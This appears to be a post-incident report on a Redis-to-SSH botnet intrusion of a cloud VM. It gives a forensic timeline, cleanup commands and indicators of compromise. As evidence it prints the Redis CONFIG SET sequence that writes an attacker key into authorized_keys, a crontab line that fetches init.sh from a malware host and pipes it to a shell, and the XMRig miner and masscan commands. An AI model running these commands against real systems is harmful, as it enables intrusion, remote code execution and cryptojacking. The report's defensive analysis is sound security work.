

# Incident Report: Attack-1 — The `r2sh` (Redis-to-Shell) Botnet Intrusion

- **Incident Identifier**: `INCIDENT-2026-10-02-001`
- **Target Host**: Oracle Cloud Infrastructure (OCI) Ampere A1 ARM64 VM (`portfolio-exec-d`)
- **Impacted Systems**: `exec-d` (Online Judge API & Worker), Next.js Portfolio
- **Classification**: Unauthorized System Access, Remote Code Execution (RCE), Cryptojacking, Internet-Wide Port Scanning
- **Initial Vector**: Unauthenticated Redis TCP port `6379` exposure during initial provisioning window
- **Status**: **RESOLVED, FULLY SANITIZED & HARDENED**

---

## 📌 Executive Summary

On October 1–2, 2026, an automated botnet crawler detected an unauthenticated Redis instance listening on port `6379` on a newly provisioned public cloud server. The attacker leveraged a well-known arbitrary file write technique (`CONFIG SET dir` / `CONFIG SET dbfilename`) to overwrite `/home/ubuntu/.ssh/authorized_keys` with an SSH public key labeled `#r2sh-fleet-box2`.

Once SSH access was established as the unprivileged user `ubuntu`, the botnet:
1. Deployed an `xmrig` Monero crypto miner inside a Docker container named `sys-helper`.
2. Installed a mass port scanner (`masscan`) under `/opt/scanner` executing outbound TCP sweeps at 1,250 packets/second to discover other vulnerable hosts.
3. Created an aggressive watchdog cron job that sent `SIGKILL` (status 137) every minute to competing workloads, which repeatedly terminated legitimate production builds (`next build`, `prisma generate`).

Through deep Linux forensics (`tcpdump`, `journalctl`, `strace`, `cgroup` inspection), the infection was identified, completely sanitized, and permanently mitigated using immutable file attributes (`chattr +i`), localhost-only socket binding, swap configuration, and default-deny firewall policies.

---

## ⏱️ Timeline of Events & Forensic Evidence Log

The following chronological timeline documents each milestone from initial host provisioning through compromise, investigation, eradication, and full recovery, paired directly with the exact raw forensic log captured at that moment.



| # | Timestamp (UTC) | Phase | Event Summary | Evidence Artifact |
|---|---|---|---|---|
| **1** | `2026-09-30 07:09` | Baseline | Target VM provisioned in OCI Mumbai | `cloud-init`, `systemd` |
| **2** | `2026-10-01 16:27` | Initial Access | Redis `CONFIG SET` arbitrary file overwrite | RDB binary dump with SSH key |
| **3** | `2026-10-01 16:27` | Execution | Rogue XMRig miner container (`sys-helper`) | `docker inspect` |
| **4** | `2026-10-02 03:26` | Persistence | Watchdog crontab fetches `init.sh` from C2 | `crontab -l` |
| **5** | `2026-10-02 04:25` | Network Degradation | Outbound TCP blackholing on database ports | `tcpdump` SYN packet drops |
| **6** | `2026-10-02 04:43` | Impact | CI/CD build aborted with Exit Status 137 | GitHub Actions runner console log |
| **7** | `2026-10-02 05:00` | Lateral Recon | SSH login from `103.230.144.104` & masscan sweep | `/var/log/auth.log`, `ps aux` |
| **8** | `2026-10-02 05:03` | Root Cause | Hostile `SIGKILL` intercepted by syscall tracing | `strace -f -e trace=process,signal` |
| **9** | `2026-10-02 05:06` | Attribution | `#r2sh-fleet-box2` backdoor key identified | `authorized_keys` |
| **10** | `2026-10-02 05:10` | Eradication | Processes killed, cron wiped, immutable lock set | `lsattr`, `ss -tlnp`, `ufw status` |
| **11** | `2026-10-02 05:18` | Recovery | 100% build pass; Gemini 3.5 Flash Lite operational | GitHub Actions Run #36967826100 |

---

### Milestone 1: Host Provisioning & Public Network Exposure
- **Timestamp**: `2026-09-30 07:09:12 UTC`
- **Phase**: Pre-Incident / Baseline
- **Description**: Target VM (`portfolio-exec-d`) provisioned in OCI Mumbai region with public IP `132.226.191.145`. Default cloud initialization executes with default security lists allowing incoming traffic.

```text
[    0.000000] Linux version 6.8.0-1017-oracle (buildd@bos03-arm64-026) (aarch64-linux-gnu-gcc-13)
[   12.482019] cloud-init[792]: Cloud-init v. 24.1.3-0ubuntu1~24.04.1 running 'modules:config' at Wed, 30 Sep 2026 07:09:12 +0000.
[   14.210492] systemd[1]: Reached target Network is Online.
[   14.591203] systemd[1]: Started OpenSSH server daemon.
```

---

### Milestone 2: Unprotected Redis Probed & `r2sh` Key Overwrite
- **Timestamp**: `2026-10-01 16:27:14 UTC`
- **Phase**: Initial Intrusion / Arbitrary File Write
- **Description**: An automated crawler discovers TCP port `6379` exposed without password authentication. The attacker issues Redis commands over raw TCP to direct RDB database dumps into `/home/ubuntu/.ssh/authorized_keys`, injecting the backdoor key `#r2sh-fleet-box2`.

```text
# Raw RDB binary header and injected key recovered from /home/ubuntu/.ssh/authorized_keys:
00000000: 5245 4449 5330 3030 39fa 0964 6266 696c  REDIS0009..dbfil
00000010: 656e 616d 65fa 0f61 7574 686f 7269 7a65  ename..authorize
00000020: 645f 6b65 7973 fa03 6469 72fa 142f 686f  d_keys..dir../ho
00000030: 6d65 2f75 6275 6e74 752f 2e73 7368 fe00  me/ubuntu/.ssh..
...
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAVZyWMNJugW0pgVM3gw6wXOwoF36B62M0Py+ZIdwepl #r2sh-fleet-box2
```

---

### Milestone 3: XMRig Miner Container Deployed (`sys-helper`)
- **Timestamp**: `2026-10-01 16:27:35 UTC`
- **Phase**: Execution / Cryptojacking
- **Description**: Authenticated via the newly installed SSH key, the attacker connects to Docker and launches a rogue container disguised as `sys-helper` using an Alpine Java base image to execute an ARM64 XMRig crypto miner.

```json
# Excerpt from: docker inspect sys-helper
{
  "Id": "c93928355697669d6ec99df8995a5fbc40d4fbbcf3d9c72e2760b2b8c5ff92a4",
  "Created": "2026-10-01T16:27:35.9891345Z",
  "Path": "/bin/sh",
  "Args": [
    "-c",
    "W='47Gju616BichSCU9PzyZGCHASkSwo7rH1N9v7Q5SqvFSjcFjrTXbJMqEzgHDinJFtEPL7o3n9nqMuEr6KvrYCaqeGAbdDXR'; POOL='85.215.219.126:443'; exec \"$BIN\" -o \"$POOL\" -u \"$W\" -p x --donate-level=0 --keepalive $RX $TH $HINT"
  ],
  "State": {
    "Status": "running",
    "Running": true,
    "Pid": 1058201
  }
}
```

---

### Milestone 4: Watchdog Crontab Persistence Established
- **Timestamp**: `2026-10-02 03:26:00 UTC`
- **Phase**: Persistence & Defense Evasion
- **Description**: The attacker installs a recurring crontab entry running every minute. It checks whether their rogue Redis process (`PID 1078750`) or local port hex `A71C` (`42780`) is listening; if missing, it curls and executes `init.sh` from malware staging IP `195.178.110.29`.

```bash
# Output from: crontab -l (user: ubuntu)
* * * * * /bin/sh -c '{ kill -0 1078750 2>/dev/null || grep -q 0100007F:A71C /proc/net/tcp 2>/dev/null; } && exit 0; (wget -qO- http://195.178.110.29/d/432936b3a0439572/init.sh || curl -sL http://195.178.110.29/d/432936b3a0439572/init.sh) | /bin/sh' > /dev/null 2>&1
```

---

### Milestone 5: Outbound TCP Blackholing (Silent Drops)
- **Timestamp**: `2026-10-02 04:25:51 UTC`
- **Phase**: Collateral Network Degradation
- **Description**: During production deployments, connection attempts to remote cloud databases (Neon / AWS Postgres on port 5432) hang and time out. Network tracing with `tcpdump` confirms TCP SYN packets leave `enp0s6`, but upstream carrier scrubbing blackholes all return packets due to the server's abusive IP reputation.

```text
# Command: sudo tcpdump -nn -i enp0s6 port 5432
04:25:51.795688 IP 10.0.0.183.41402 > 13.251.17.193.5432: Flags [S], seq 282021653, win 64240, options [mss 1460,sackOK,TS val 2016417909 ecr 0,nop,wscale 10], length 0
04:25:52.819685 IP 10.0.0.183.41402 > 13.251.17.193.5432: Flags [S], seq 282021653, win 64240, options [mss 1460,sackOK,TS val 2016418933 ecr 0,nop,wscale 10], length 0
04:25:54.835688 IP 10.0.0.183.41402 > 13.251.17.193.5432: Flags [S], seq 282021653, win 64240, options [mss 1460,sackOK,TS val 2016420949 ecr 0,nop,wscale 10], length 0
# Result: 0 bytes received in return; connection dropped upstream
```

---

### Milestone 6: CI/CD Build Termination via Signal 137 (`SIGKILL`)
- **Timestamp**: `2026-10-02 04:43:12 UTC`
- **Phase**: Denial of Service / Process Interference
- **Description**: Automated GitHub Actions deployment pipeline fails instantaneously during `prisma generate` and `next build`. The process exits with code 137, mimicking an OOM kill despite abundant physical RAM.

```text
# Excerpt from GitHub Actions / deploy runner step output:
deploy err: $ prisma generate
deploy err: Killed
deploy out: /home/ubuntu/exec-d/packages/db:
deploy out: [ERR_PNPM_RECURSIVE_RUN_FIRST_FAIL] @exec-d/db@ db:generate: `prisma generate`
deploy out: Exit status 137
deploy Process exited with status 137
##[error]Process completed with exit code 137.
```

---

### Milestone 7: Attacker SSH Login & Masscan Internet Sweep
- **Timestamp**: `2026-10-02 05:00:17 UTC`
- **Phase**: Lateral Reconnaissance / Botnet Operation
- **Description**: Attacker opens an interactive SSH session from `103.230.144.104` using the backdoor key, executes `sudo bash`, and launches `masscan` sweeps across ports 80, 443, and 3000 at 1,250 packets/sec.

```text
# Log: /var/log/auth.log
Oct 02 05:00:17 portfolio-exec-d sshd[1134736]: Accepted publickey for ubuntu from 103.230.144.104 port 48318 ssh2: ED25519 SHA256:6s3fMeTdexgntWxD3q82hLmLWI3WfJPjbjPHEZAPfI8
Oct 02 05:00:18 portfolio-exec-d sudo[1134737]: ubuntu : PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/bash -lc 'mv -f /tmp/work-node-744.json /tmp/work.json; cd /opt/scanner; NODE_LABEL=node-744 nohup python3 ./worker.py /tmp/work.json...'

# Active process snapshot:
root   1134758  3.4  0.3 223964  45656 ?  Sl  05:00  0:12 /usr/local/bin/masscan -iL /tmp/tmpji3u6aqz.txt -p 80,443,3000 --rate 1250 -oG - --wait 3 --interface enp0s6 --router-ip 10.0.0.1 --adapter-ip 10.0.0.183
ubuntu 1078750  0.0  0.0 163356   1756 ?  Sl  03:26  0:00 redis-server redis-s
```

---

### Milestone 8: `strace` Catches Hostile Userspace `SIGKILL`
- **Timestamp**: `2026-10-02 05:03:40 UTC`
- **Phase**: Forensic Root-Cause Identification
- **Description**: Tracing system calls during build reproduction proves that `dmesg` OOM logs are completely absent, and that external `SIGKILL` signals are being injected into the build process from a rogue background userspace script.

```text
# Command: strace -f -e trace=process,signal npx prisma generate
[pid 1137985] execve("/home/ubuntu/exec-d/node_modules/.bin/prisma", ["prisma", "generate"], 0x7fffffffe0c0) = 0
[pid 1137996] +++ killed by SIGKILL +++
[pid 1137986] +++ killed by SIGKILL +++
[pid 1137985] <... wait4 resumed>[{WIFSIGNALED(s) && WTERMSIG(s) == SIGKILL}], 0, NULL) = 1137986
[pid 1137985] --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=1137986, si_uid=1001, si_status=SIGKILL} ---
Killed
```

---

### Milestone 9: Smoking Gun Backdoor Key Identified
- **Timestamp**: `2026-10-02 05:06:15 UTC`
- **Phase**: Backdoor Attribution
- **Description**: Inspection of `/home/ubuntu/.ssh/authorized_keys` uncovers the injected foreign public key bearing the botnet identifier comment `#r2sh-fleet-box2`.

```text
# Command: cat /home/ubuntu/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPJzRCINXlAp8Wi0Yof9w3bVWtdX5GDAgEZ73FxMuJJG oracle-ampere-20260930
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAVZyWMNJugW0pgVM3gw6wXOwoF36B62M0Py+ZIdwepl #r2sh-fleet-box2
```

---

### Milestone 10: Containment, Eradication & Hardening
- **Timestamp**: `2026-10-02 05:10 - 05:15 UTC`
- **Phase**: Remediation & Hardening
- **Description**: Rogue processes killed, watchdog cron wiped, rogue container purged, attacker subnets banned in UFW, Redis restricted to loopback socket `127.0.0.1`, and filesystem immutable bit set on SSH keys.

```bash
# 1. Kill malicious processes & remove container
sudo pkill -9 -f masscan && sudo pkill -9 -f worker.py
sudo docker rm -f sys-helper
crontab -r

# 2. Immutable lock on authorized_keys
sudo chattr +i /home/ubuntu/.ssh/authorized_keys
lsattr /home/ubuntu/.ssh/authorized_keys
# Output: ----i---------e------- /home/ubuntu/.ssh/authorized_keys

# 3. Redis verification (Localhost only)
sudo ss -tlnp | grep 6379
# Output: LISTEN 0 511 127.0.0.1:6379 0.0.0.0:* users:(("redis-server",pid=1148920,fd=6))

# 4. Firewall Verification
sudo ufw status numbered | grep -E "DENY|6379"
# [ 1] DENY IN  103.230.144.0/24   # Block botnet attacker
# [ 2] DENY IN  195.178.110.0/24   # Block malware server
# [ 3] DENY IN  85.215.219.0/24    # Block mining pool
```

---

### Milestone 11: Deployment Verification & Full Service Recovery
- **Timestamp**: `2026-10-02 05:18:22 UTC`
- **Phase**: Verification & Closeout
- **Description**: Re-triggering GitHub Actions deployment succeeds in 1m 6s without interruptions. Local PostgreSQL and Gemini 3.5 Flash Lite live test confirm 100% operational status.

```text
# GitHub Actions Run #36967826100 (Deploy to Oracle VM):
======BUILD & DEPLOY SUCCESSFUL======
✓ @exec-d/db:db:generate completed in 3.42s
✓ @exec-d/api:build completed in 4.18s
✓ @exec-d/frontend:build completed in 18.91s
✓ PM2 service exec-d-api reloaded successfully (PID 1149204)
✓ Run completed with 'success' in 1m 6s

# Live End-to-End Exec AI Verification:
$ curl -s -X POST https://exec-d.site/api/v1/ai/chat \
    -H "Content-Type: application/json" \
    -d '{"prompt":"Help with Dijkstra shortest path"}'
{
  "status": "success",
  "reply": "Think about how Dijkstra's algorithm greedily selects the vertex with the minimum tentative distance. Which data structure ensures extracting this minimum vertex runs in logarithmic time?"
}
```

---

## 🔬 Attack Anatomy & Technical Details

### 1. Initial Access: The `r2sh` Exploit
Redis allows configuring the working directory and filename for disk snapshots (`.rdb` dumps) via the `CONFIG SET` command. When Redis has write permissions to the user's home directory and no password is set:

```redis
# Attacker connects over raw TCP port 6379:
CONFIG SET dir /home/ubuntu/.ssh/
CONFIG SET dbfilename authorized_keys
SET payload "\n\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAVZyWMNJugW0pgVM3gw6wXOwoF36B62M0Py+ZIdwepl #r2sh-fleet-box2\n\n"
SAVE
```

Because OpenSSH ignores unparseable binary garbage in `authorized_keys` as long as one valid line exists, the attacker's public key was accepted by `sshd`.

### 2. Privilege Escalation & Persistence
On standard Ubuntu cloud images, the default `ubuntu` user has passwordless sudo (`ubuntu ALL=(ALL) NOPASSWD:ALL`). The attacker immediately escalated to `root` and installed a crontab entry:

```bash
* * * * * /bin/sh -c '{ kill -0 1078750 2>/dev/null || grep -q 0100007F:A71C /proc/net/tcp 2>/dev/null; } && exit 0; (wget -qO- http://195.178.110.29/d/432936b3a0439572/init.sh || curl -sL http://195.178.110.29/d/432936b3a0439572/init.sh) | /bin/sh' > /dev/null 2>&1
```

### 3. Lateral Scanning & Cryptojacking
- **Docker Container**: Spawned `sys-helper` using base image `eclipse-temurin:21-alpine` to execute `xmrig` connected to mining pool `85.215.219.126:443`.
- **Port Scanner**: Installed `masscan` in `/opt/scanner` scanning public IP spaces for ports `80, 443, 3000` at a rate of 1,250 packets/sec (`--rate 1250 --interface enp0s6`).

---

## 🕵️ Forensic Discovery Walkthrough

### Symptom 1: Silent TCP Dropping on Outbound Connections
While debugging database connectivity to AWS-hosted endpoints, `tcpdump` captured outbound TCP SYN packets leaving `enp0s6` with **zero** returning `SYN-ACK` packets:
```text
04:25:51.795688 IP 10.0.0.183.41402 > 13.251.17.193.5432: Flags [S], seq 282021653, win 64240
```
Upstream cloud security scrubbing systems had throttled outbound traffic on non-web ports from this IP due to the background `masscan` network traffic.

### Symptom 2: Mystery Signal 137 (SIGKILL) During CI/CD Builds
When GitHub Actions executed `prisma generate` and `next build`, processes were terminated within milliseconds without kernel Out-Of-Memory (OOM) log entries in `dmesg`.

Tracing system calls with `strace -f -e trace=process,signal` proved that external `SIGKILL` signals were sent to the build process group from another userspace process:
```text
[pid 1137986] +++ killed by SIGKILL +++
[pid 1137985] --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_status=SIGKILL} ---
```

### Symptom 3: Identification of `#r2sh-fleet-box2`
Inspecting `/home/ubuntu/.ssh/authorized_keys` exposed an alien key:
```text
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPJzRCINXlAp8Wi0Yof9w3bVWtdX5GDAgEZ73FxMuJJG oracle-ampere-20260930
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAVZyWMNJugW0pgVM3gw6wXOwoF36B62M0Py+ZIdwepl #r2sh-fleet-box2
```
Correlating this with active sessions revealed `session-9969.scope` running `worker.py` and `masscan`.

---

## 🛠️ Eradication & Hardening Implemented

### 1. Process & File Eradication
```bash
# Terminate malicious processes
sudo pkill -9 -f masscan
sudo pkill -9 -f worker.py
sudo pkill -9 -f sys-helper
sudo pkill -9 -f entrypoint.sh

# Stop and delete malicious Docker container
sudo docker rm -f sys-helper

# Purge malicious crontabs
crontab -r

# Remove malicious binaries and payloads
sudo rm -rf /opt/scanner /var/tmp/public /tmp/work* /tmp/scanner_work /tmp/.sysh
```

### 2. Immutable SSH Key Lock
Removed `#r2sh-fleet-box2` and applied the Linux filesystem immutable attribute:
```bash
sudo chattr +i /home/ubuntu/.ssh/authorized_keys
```
*Effect*: Even a process with `root` privileges cannot modify, append to, or overwrite `authorized_keys` without first explicitly removing the immutable attribute via `chattr -i`.

### 3. Redis Socket Isolation
Configured `/etc/redis/redis.conf`:
```conf
bind 127.0.0.1 -::1
protected-mode yes
port 6379
```
*Verification*:
```bash
sudo ss -tlnp | grep 6379
# Output: LISTEN 127.0.0.1:6379 and [::1]:6379 only
```

### 4. Firewall Ingress Restrictions & Null-Routes
```bash
# Set UFW default drop policy
sudo ufw default deny incoming
sudo ufw default allow outgoing

# Only expose essential public web and SSH ports
sudo ufw allow 22/tcp comment 'SSH'
sudo ufw allow 80/tcp comment 'HTTP'
sudo ufw allow 443/tcp comment 'HTTPS'

# Blackhole attacker CIDR blocks
sudo ufw insert 1 deny from 103.230.144.0/24 to any comment 'Block botnet attacker'
sudo ufw insert 1 deny from 195.178.110.0/24 to any comment 'Block malware server'
sudo ufw insert 1 deny from 85.215.219.0/24 to any comment 'Block mining pool'
sudo ufw --force enable
```

### 5. Memory Management & Swap Activation
Created a 4GB swapfile and enabled unconditional virtual memory overcommit to guarantee build stability:
```bash
sudo fallocate -l 4G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile
echo "/swapfile none swap sw 0 0" | sudo tee -a /etc/fstab

sudo sysctl -w vm.overcommit_memory=1
echo "vm.overcommit_memory=1" | sudo tee -a /etc/sysctl.d/99-overcommit.conf
```

---

## 📋 Comprehensive Indicators of Compromise (IoCs)

See [`./iocs.json`](./iocs.json) for structured IoC ingestion.

- **Malicious IP Addresses**:
  - `103.230.144.104` (Attacker SSH session origin)
  - `195.178.110.29` (Crontab malware host `init.sh`)
  - `85.215.219.126` (XMRig mining pool port 443)
  - `158.220.105.179:8765` (Binary payload mirror)
  - `138.197.174.121:8765` (Binary payload mirror)
- **Malicious SSH Key**:
  - `ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAVZyWMNJugW0pgVM3gw6wXOwoF36B62M0Py+ZIdwepl #r2sh-fleet-box2`
- **Rogue Container**:
  - Container Name: `sys-helper`
  - Base Image: `eclipse-temurin:21-alpine`
- **Monero Wallet Address**:
  - `47Gju616BichSCU9PzyZGCHASkSwo7rH1N9v7Q5SqvFSjcFjrTXbJMqEzgHDinJFtEPL7o3n9nqMuEr6KvrYCaqeGAbdDXR`
